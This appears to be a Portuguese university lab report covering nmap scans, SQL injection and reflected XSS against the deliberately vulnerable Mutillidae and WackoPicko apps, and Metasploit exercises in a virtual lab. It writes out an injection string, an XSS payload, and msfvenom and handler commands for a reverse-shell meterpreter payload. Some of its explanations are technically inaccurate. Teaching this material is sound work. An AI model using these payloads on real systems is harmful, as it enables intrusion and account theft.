



# Tarefa Prática 1 - Nmap, OWASP, Metasploit

#### Nomes
Bruno Aurélio Rôzza de Moura Campos (14104255)<br/>
Laís Ferrigo Perazzolo (14101383)

#### Matéria
- Segurança da informação e sistemas - INE5680

#### Arquivo de Configuração
- [configurar_kali_e_OWASP_broken_no_virtualbox_e_Instalar_muti](configurar_kali_e_OWASP_broken_no_virtualbox_e_Instalar_muti.pdf)

#### Arquivo de Descrição do trabalho
- [INE5680-tarefa_pratica_metasploit_v16.pdf](INE5680-tarefa_pratica_metasploit_v16.pdf)


## PARTE 1.NMAP

### Questão 1. 
`nmap -sS -O 192.168.56.101`


 <!-- - Os parâmetros `-sV` servem para: detectar portas abertas para determinar informações de serviço / versão. Neste caso foi encontrado 9 portas abertas executando serviços do tipo ssh, http, imap, netbios-ssn, java-rmi e ssl.
 - O parâmetro `-O` serve para detectar o sistema operacional. -->

- Os parâmentros `sS` serverm para escanear o host usando `TCP SYN scans` 
- O parâmetro `-O` serve para detectar o sistema operacional.

### Questão 2.
`nmap -sTV -Pn -n --top-ports 10 --reason -oA saidanmap 192.168.56.101`


<!-- 


 -->

<!-- - O parâmetro `-v` serve para retornar as ações do nmap de modo verboso.
- O parâmetro `-A` serve para detectar alem da sistema operacional do host atacado, as portas abertas, o estado das portas, o serviço que roda em cada porta e qual a versão que esta sendo executado. Com este parâmetro é rodado um script scanning, e traceroute, conforme figura 4. -->
- O parâmetro `-sTV` serve para escanear o host usando `TCP SYN` indicando o número de versão 
- O parâmetro `-n` serve para que o nmap não reverter a resolução de DNS nos endereços IP
- O parâmetro `--top-ports 10` retorna as portas mais comuns.
- O parâmetro `--reason` mostra o motivo pelo qual uma porta está em um estado específico.
- O parâmetro `-oA` mostra os três principais formatos de uma só vez.

<br/>

Além disso foi gerado 3 arquivos, `saidanmap.gnmap`, `saidanmap.nmap` e `saidanmap.xml` contendo uma tabela com a porta, estado, serviço e motivo do estado da porta, alem dos parâmetros, verbose, debugging, host, address, hostnames e scaninfo.

<!-- ### Questão 3.
`nmap -sS -v --top-ports 10 --reason -oA saidanmap www.ufsc.br`


- O parâmetro `-sS` serve para retornar os pacotes TCP SYN. Na imagem 5, na coluna REASON é mostrado quais portas com os seus respectivos serviços retornaram algum resposta.
- O parâmetro `-v` serve para retornar as ações do nmap de modo verboso.
- O parâmetro `--top-ports 10` retorna as portas mais comuns.
- O parâmetro `--reason` mostra o motivo pelo qual uma porta está em um estado específico.
- O parâmetro `-oA` mostra os três principais formatos de uma só vez.<br/>
Alem disso foi gerado 3 arquivos, `saidanmap.gnmap`, `saidanmap.nmap` e `saidanmap.xml` contendo uma tabela com a porta, estado, serviço e motivo do estado da porta, alem dos parâmetros, verbose, debugging, host, address, hostnames e scaninfo. -->


### Questão 3.
(Apresentação) Crie um comando nmap com opções diferentes das usadas nas questões
anteriores e explique a saída obtida pelo seu comando.



- O parâmetro `--traceroute` mostra todos os saltos e hosts passados até o alvo.


### Questão 4.
**a. Qual a diferença entre um scan de conexão TCP e um SYN scan ?**<br/>
- O scan TCP SYN é relativamente não-obstrusivo e camuflado, uma vez que ele nunca completa uma conexão TCP. Ele também permite uma diferenciação limpa e confiável entre os estados aberto (open), fechado (closed), e filtrado (filtered).
- O scan TCP é o scan padrão do TCP. Esse é o caso quando o usuário não tem privilégios para criar pacotes em estado bruto.


**b. Qual questão anterior usa scan de conexão TCP e qual questão usa SYN scan?**<br/>
- A questão 3 usa `-sS (scan TCP SYN)` e segundo o site do [nmap](https://nmap.org/man/pt_PT/man-port-scanning-techniques.html) por default o Nmap executa um scan SYN, então as questão 1 tambem utilizam um `scan TCP SYN`. Já a questão 2 usa `scan TCP`.

<!-- **c. Comente pelo menos uma vulnerabilidade da máquina Owasp Broken, listando a identificação CVE (cve.mitre.org) da vulnerabilidade<br/>**
- Na questão 3 foi lista na porta TCP 445 uma serviço microsoft-ds. Este serviço apresenta uma vulnerabiliade que pode permite ataques remotos para causar DOS (denial of service).<br/>
Esta vulnerabilidade foi catalogada na CVE com as sequintes informações:

**CVE-ID**: CVE-2002-0597<br/>
**Description**: LANMAN service on Microsoft Windows 2000 allows remote attackers to cause a denial of service (CPU/memory exhaustion) via a stream of malformed data to microsoft-ds port 445.<br/>
**Date Entry Created:** 20030402 -->

---


## PARTE 2.OWASP - Vulnerabilidades em Aplicações Web

<!-- ### Questão 7.
Explique as vulnerabilidades A1, A2, A3 e A7 do documento TOP TEN2017:

- A1: injection - 
É uma falha na codificação de uma aplicação qualquer (seja web ou local) que permite ao atancate inserir uma consulta SQL

- A2: Broken Authentication - 
É uma vulnerabilidade nas sessões nas aplicações que utilizam autenticação que permite aos invasores comprometerem senhas, tokens de sessão ou explorem outras falhas de implementação para assumir as identidades de outros usuários.

- A3: Sensitive Data Exposure - 
Refere-se a proteção incorreta dos dados críticos tais como, por exemplo, números de cartão de crédito, senhas, entre outros.

- A7: Cross-Site Scripting (XSS) - 
Os ataques XSS típicos incluem roubo de sessão, controle de conta, desvio de MFA, substituição ou desfiguração de nó DOM (como painéis de login de trojan), ataques contra o navegador do usuário, como downloads de software mal-intencionado, registro de chaves e outros ataques do lado do cliente.<br/>
Os alvos desta vulnerabilidade são os browsers dos usuários.<br/>
Outro ponto importante sobre esta vulnerabilidade é que o  problema de XSS é o segundo problema mais recorrente, registrado pelo OWASP Top 10. -->


### Questão 5.

**a. Acesse  a  aplicação  Mutillidae:
abra  o  browser da  sua  máquina  real  ou  na  Kali  Linux  no  site `http://IP da Kali/mutillidae/` e clique em Login (ver figura 5).
No campo Username, digite a string ‘or1=1 --(tem  espaço  no  final,  depois  dos  tracinhos). O  campo Password  pode  ficar  em branco. Copie e cole a tela do seu experimento.**

<image src="images/question_8.png">

**b. Clique em Logout. Repita a inserção da mesma string da questão anterior no seguinte link:
`http://IP da Owasp Broken/mutillidae/index.php?page=user-info.php`. Copie e cole um
screenshot da execução de um experimento.**

<image src="images/question_9.png">


**c. Explique  o  resultado  obtido  e  a  vulnerabilidade  explorada  no  experimento  (pesquise  no documento do TOP 10 da OWASP).**

O SQL INJECTION é o top 1 no relatório da OWASP 2017. Ao analisar o reltório é possível concluir que ao inserir o script `´'or 1=1 -- ` ​no campo de login é realizado um sql injection dá a possíbilidade de realizar o login, onde o script indica resultado verdadeiro, ignorando o restante da expressão.<br/>

**d. O que pode ser feito para impedir a exploração dessa vulnerabilidade?**

A melhor forma de resolver o problema é inserir uma validação dos dados de entrada tanto no campo de texto (front-end), quanto no back-end. Por exemplo, usando API segura para realizar a autenticação.


### Questão 6.

(APRESENTAÇÃO) Você deve usar a ferramenta OWASP ZAP (Zed Attack Proxy) da Kali Linux.
Faça um scan das vulnerabilidades da aplicação WackoPicko da máquina OWASP Broken usando a
ferramenta (veja figura 6). Faça:

**a. Para instalar a ferramenta OWASP ZAP (Zed Attack Proxy), execute os seguintes comandos no
terminal:**
1. sudo su
2. Digite a senha “kali”
3. apt-get update
4. apt-get install zaproxy

OK

**b. Depois de instalada, acesse no menu Kali-Linux -> 03 - Web Applications Analysis -> owasp-zap.**

OK

**c. Faça um scan das vulnerabilidades da aplicação WackoPicko da máquina OWASP Broken usando
a ferramenta (veja figura 6). Clique em Automated Scan. Coloque a URL da aplicação – http://IP
da OWASP/WackoPicko - e clique em “Attack”. A análise básica é iniciada. É rápido (máximo 5
minutos) e você deve salvar o relatório gerado ao final do processo (opção Report -> Generate
HTML Report). Os alertas (aba Alerts) vão listando as vulnerabilidades encontradas. Na aba Active
Scan é possível ver os requests sendo enviados.**

OK, salvo arquivo: [zaproxy](zaproxy.html)

**d. Comente o experimento e alguns dos resultados alcançados. Abra o relatório para ajudar.**

O relatório fornecido pela aplicação trás um sumário de alertas onde mostra a quantidade e o númeor de alertas. Depois disso é mostrado detalhadamento cada alerta, por exemplo, alerta vermelho para **SQL Injection** pois é possível fazer na URL http://192.168.56.103/WackoPicko/users/login.php. Além do problema detectado, o relatório informa possíveis soluções e trás referências destas.

Analisando os alerta de menor risco, é trazido informações bem detalhadas, como por exemplo este caso: **Cookie No HttpOnly Flag** onde o teste detectou que é possível executar scripts armazenados em cookies. Tambem é possível se transmitido para outro site este mesmo cookie fazendo um session hijacking.

**e. Abra o relatório gerado. Verifique como é possível fazer o “ataque” de Cross-Site Scripting
Reflected conforme descrito no relatório. Mostre com screenshots e explique o ataque de CrossSite Scripting (Reflected) (copie e cole os links e entradas sugeridas no browser e a saída na tela
é o “ataque”). Você deve executar o ataque e mostrar com screenshots!**

O **cross-Site Scripting Reflected** é um ataque 
que envolve repetir o código fornecido pelo invasor em uma instância de navegador.


Original 
<image src="images/q_6.1.png">

Inserido script: `<script>alert('oops');</script>`
 na URL original: http://192.168.56.103/WackoPicko/pictures/search.php?query=&x=45&y=19

<image src="images/q_6.2.png">

**Funcionamento**:
O Cross Site Scripting (XSS) é uma vulnerabilidade em um aplicativo Web que permite que terceiros executem um script no navegador do usuário em nome do aplicativo Web. Caso a entrada precisar ser fornecida ao site sempre que for executado então este XSS é dito refletido. 

A vítima solicita uma página com uma solicitação contendo a payload e a payload é incorporada na resposta como um script.
O código do payload tem a capacidade de ler, modificar e transmitir quaisquer dados confidenciais acessíveis pelo navegador.


<image src="images/reflectedXSS.png">

**O que pode acontecer**: 
Um usuário com script entre sites pode ter sua conta invadida (roubo de cookie), seu navegador redirecionado para outro local ou possivelmente exibir conteúdo fraudulento entregue pelo site que está visitando. Os ataques de script entre sites comprometem essencialmente a relação de confiança entre um usuário e o site.

- Link para o ataque: http://192.168.56.103/WackoPicko/guestbook.php

**f. Envie no moodle, além das respostas desta tarefa, o arquivo do relatório do experimento (salve
em formato html).**

OK, salvo arquivo: [zaproxy.html](zaproxy.html)


<!-- 
### Questão 9.
Repita a inserção da mesma string da questão anterior no seguinte link: http://IPdaKali/mutillidae/index.php?page=user-info.php<br/>

**a. Explique a vulnerabilidade explorada no experimento (pesquise no documento do TOP 10 da OWASP).**

Esta falha de segurança ocorreu tambem por  sql injection onde foi possível fazer a consulta de usuários com seus respectivos login e senha.<br/>
Sobre a query executada, o 1=1 faz
retornar `true` e com o comentário (--) ignora a validação da senha.<br/>
Segundo o documento do TOP 10 da OWASP, o sql injection pode resultar em perda de dados, corrupção ou divulgação para partes não autorizadas, perda de responsabilidade ou negação de acesso. Alem disso, pode levar a uma aquisição completa do host.

**b. Copie e cole um screenshot da execução de um experimento.**

<image src="images/question_9.png">


**c. O que pode ser feito para impedir a exploração dessa vulnerabilidade?**

A melhor opção é usar uma API segura para realizar a autenticação. -->

---

## PARTE 3.Metasploit

### Questão 7. 
**(APRESENTAÇÃO) Copie e cole o screenshot da sua tela ao realizar cada passo dos
experimentos apresentados a seguir (Passo 1, Passo 2, etc).
Depois, explique o experimento:**

Passo 1.
```bash
msfconsole

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f elf > shell.elf
```


Passo 2.


Passo 3.


Passo 4.
```bash
msfconsole

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
run
```


Passo 5.


**a. O que foi criado no passo 1? Pesquise para responder!**

No passo 1 foi criado um metasploit payload onde cria uma conexão da máquina de destino de volta ao servidor Metasploit por TCP.

 Sobre os parâmetros:
- `-p` é para indicar o payload usado (neste caso foi utilizado um payload binário do linux para TCP reverso)
- `LPORT` e `LHOST` são a porta e IP do atacante que receberão o shell reverso
- `-f` é a saída do formato do payload, neste caso elf

**b. Qual a vulnerabilidade explorada?**

Sequestro de conexão TCP.

**c. O que é o meterpreter?**

Meterpreter é um payload do Metasploit que oferece ferramentas que auxiliam o invasor
em um ataque, fornecendo informações sobre a vítima.

**d. O que é possível fazer depois que o exploit é executado? Use pelo menos dois comandos do
meterpreter listados com o comando help ou listados na Figura 10 e explique cada um deles,
colocando a imagem da execução dos seus comandos. Alguns comandos para máquinas Windows
não funcionarão na máquina Linux.**


Arquivos binários, como .exe, .bin, geralmente são entregues através de explorações do lado do cliente, como e-mails de phishing ou ataques de engenharia social, o que significa que provavelmente precisará ignorar a detecção de antivírus para executar o código de shell no sistema de destino . 

Este tipo de ataque abre uma porta de comunicação (backdoor) diretamente com o computador alvo. Com isso, se tornar possível o controle da máquina.


<!-- ### Questão 14.
Copie e cole o screenshot da sua tela ao realizar o experimento anterior. Depois, explique o experimento:<br/>

<image src="images/question_14.png">

**a. O que é o ataque do dicionário?**<br/>
É um ataque que utiliza um banco de dados com logins e senhas para tentar descobrir os dados da vítima através da força bruta.

**b. O que foi encontrado?**<br/>
Foi possível encontrar o login e senha da vítima.

**c. Qual foi a vulnerabilidade usada para obter esse resultado?**<br/>
Vulnerabilidade: CVE-2009-4189<br/>
A vítima usa uma senha padrão, o que permite que o atacante possa executar um ataque arbitrário utilizando força bruta e tenha acesso ao terminal da máquina dela através do Tomcat.

**d. Como pode ser explorado esse resultado?**<br/>
Com o login e senha, é possível fazer um acesso remoto na máquina da vítima e ter
controle sobre ela. -->


<!-- ### Questão 15.
Copie e cole o screenshot da sua tela de estabelecimento de sessão, como a figura 12(inclua na   imagem   a   parte   dos   IPs,   data   e   hora   dos   experimentos).<br/>
Agora,   explique  os  experimentos respondendo perguntas:

**a. Qual a vulnerabilidade que está sendo explorada?**<br/>
Backdoor.

**b. O que faz o exploit para explorar a vulnerabilidade?**<br/>
O exploit concede a um usuário não autorizado acesso no sistema da vítima de forma remota e assim executar comandos.

**c. O que é o meterpreter?**<br/>
Meterpreter é um payload do Metasploit que oferece ferramentas que auxiliam o invasor
em um ataque, fornecendo informações sobre a vítima.

**d. O  que  é  possível  fazer  depois  que  o  exploit  é  executado?  Use  pelo  menos  dois  comandos  do meterpreter  listados  com  o  comando  help  ou  listados na  Figura 13 e  explique  cada  um  deles, colocando a imagem da execução dos seus comandos. Alguns comandos para máquinas Windows não funcionarão na máquina Linux.**

- Comando `getsystem`: torna possível obter informações do sistema da vítima.
- Comando `clearev`: faz o wipe das informações de acessos (rastros)

<image src="images/question_15.png"> -->

<!-- ---

## PARTE 3.Nikto

### Questão 6.
Execute o comando: `nikto -host http://10.1.2.6/WackoPicko/ -o nikto.html-Format htm`

**a. Copie e cole screenshots (pedaços) de telas obtidas na execução do comando.**<br/>

<image src="images/question_6_nikto.png">

**b. Explique o que mais chamou sua atenção na saída obtida. Explique também alguma vulnerabilidade encontrada nessa aplicação (WackoPicko) que consta no relatório do arquivo muti.html.**

O que mais nos chamou a atenção foram 2 pontos:<br/>
- Não há autenticação para ser admin do servidor: 
`+ /WackoPicko/guestbook/admin.php: Guestbook admin page available without authentication.`
- É possível baixar todo o banco de dados: 
`+ OSVDB-52975: /WackoPicko/guestbook/admin/o12guest.mdb: Ocean12 ASP Guestbook Manager allows download of SQL database which contains admin password.`

Sobre as vulnerabilidades, o nikto retornou o arquivo `nikto.html` contendo todas as vulnerabilidades encontrada:<br/>

<image src="images/question_6.png">

Nesta vulnerabilidade da imagem acima é notável observar que através de uma requisição HTTP GET é possível ter acesso privilegiado na página sem necessitar de autenticação.

---


---

## PARTE 4.Vulnerabilidades em IoT

### Questão 12.
Leia a reportagem com título “Find webcams, databases, boats in the sea using Shodan”disponível em (https://www.securitynewspaper.com/2018/11/27/find-webcams-databases-boats-in-the-sea-using-shodan/).<br/>
Responda:

**a. O que é o Shodane o que é possível fazer com este site?**<br/>
O Shodan é um scanner que encontra dispositivos conectados pela internet. O Shodan pode encontrar dispositivos como semáforos, câmeras de segurança, dispositivos de aquecimento doméstico e monitores de bebês. Este scanner da web também pode encontrar o sistema SCADA como estações de gás, usinas nucleares. Shodan informa a localização física dos dispositivos conectados pela internet.

**b. (Apresentação) Faça o registro no site, pesquise e liste algum dispositivo IoT que você encontrou.**<br/>
Na figura abaixo, segue uma list com 4 cameras IP com acesso livre

<image src="images/question_12.png">


### Questão 13.
Conforme    descrito    na    reportagem,    acesse    o    link http://166.161.197.253:5001/cgi-bin/guestimage.html. É uma câmera Mobotix.<br/>
Responda:
**a. O que é possível visualizar?**<br/>
É possível ter acesso a todas as configurações das câmeras.

**b. Um atacante poderia fazer o que com este acesso?**<br/>

Um ataque poderia ser o desligamento da câmera num período propício ou senão, as cameras podem ser utilizadas para realizar um ataque DDos. -->

---

### Referências:
- https://nmap.org/ acesso 29/03/2020
- https://www.owasp.org/images/7/72/OWASP_Top_10-2017_(en).pdf.pdf acesso 29/03/2020
- https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/ acesso 29/03/2020
- https://github.com/adamdoupe/WackoPicko acesso 29/03/